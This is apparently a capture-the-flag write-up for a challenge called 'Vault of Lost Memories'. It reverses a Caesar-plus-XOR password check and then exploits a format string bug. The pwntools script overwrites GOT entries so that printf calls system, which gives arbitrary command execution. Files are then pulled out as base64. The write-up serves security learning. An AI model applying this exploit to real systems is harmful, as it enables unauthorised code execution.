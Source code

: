 ```yaml
---
title: Vault of Lost Memories
category: p_ctf{4cqU1r3d_B3y0nd_7h3_M3m0r1es}
tags: 
completedDuringEvent: true
submitted: true
flag: FLAG{0xdeadbeef}
draft: true
---
```

Let's just do a binary analysis using **IDA Pro**.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  sub_401216(a1, a2, a3);
  signal(14, handler);
  alarm(0x64u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( (unsigned int)sub_401259() )
  {
    v4 = -1;
    fwrite("password mismatch!\n", 1uLL, 0x17uLL, stderr);
  }
  else
  {
    v4 = 0;
    sub_401448();
  }
  return v4;
}
```

### Password Crack

It turns out that this program asks for password input, if the password entered is correct, then the program will run `sub_401448()`. However, before that, let's look at the `sub_401259()` function.

```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
  puts("Welcome to the digital vault of lost memories! ");
  puts("Enter the passcode to enter the lost memory world: ");
  printf(">>> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  s[strlen(s) - 1] = 0;
  for ( j = 0; s[j]; ++j )
  {
    v1 = s[j];
    if ( ((*__ctype_b_loc())[v1] & 0x100) != 0 )
    {
      s[j] = (v1 - 65 + dword_404094) % 26 + 65;
    }
    else if ( ((*__ctype_b_loc())[v1] & 0x200) != 0 )
    {
      s[j] = (v1 - 97 + dword_404094) % 26 + 97;
    }
    s[j] ^= dword_404090;
  }
  return (unsigned int)-(memcmp("cLVQjFMjcFDGQ", s, 0xDuLL) != 0);
}
```

From the `sub_401259()` function we can see that the program performs a transformation on the password entered by the user. This transformation consists of two stages, namely Caesar cipher and XOR. After the transformation is complete, the program will compare the transformation result with the string `cLVQjFMjcFDGQ`. If the transformation result is the same as the string, the program will return a value of 0, otherwise, the program will return a value of -1.

```py
dword_404094 = 10   # The Caesar cipher shift value
dword_404090 = 53   # The XOR key

transformed_password = 'cLVQjFMjcFDGQ'
password = ''

for char in transformed_password:
    char = chr(ord(char) ^ dword_404090)

    if char.isupper():
        char = chr(((ord(char) - 65 - dword_404094) % 26) + 65)
    elif char.islower():
        char = chr(((ord(char) - 97 - dword_404094) % 26) + 97)
    
    password += char

print(password)
```

The correct password is `Lost_in_Light`.

### Format String Vulnerability

```c
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);                                    // Format String
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

From the `sub_401448()` function we can see that the program performs string formatting on the input given by the user. After that, the program will run `system("ls *.pdf")`. Because the program performs string formatting on the input given by the user, we can perform a string format attack to get the flag.

Because in string format we can write to the address we want, we can write to any address. Here I do a write on the `putc` function to return to the `sub_401448()` function and write on the `printf` function to run the `system` function.

```py
from pwn import *

binary = './challenge/chal'

# context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('vault.ctf.prgy.in', 1337, ssl=True)

payload = fmtstr_payload(6, {
  e.got['putc']: 0x401448,              # Overwrite putc with sub_401448
  e.got['printf']: e.symbols['system']  # Overwrite printf with system
}, write_size='short')

r.recvuntil(b">>> ")
r.sendline(b"Lost_in_Light")

r.recvuntil(b">>> ")
r.sendline(payload)

r.interactive()
```

When this works, then every time we enter input, what should have been `printf(s);` will become `system(s);` where we can do any command. However, on the server there will be some obstacles, namely all files on the server are `.pdf` files. To get or download the `.pdf` file, we can use the `base64` command to encode the `.pdf` file into base64 and then we decode it locally.

In the last `.pdf` file, we will get a flag.

![alt text](image.png)
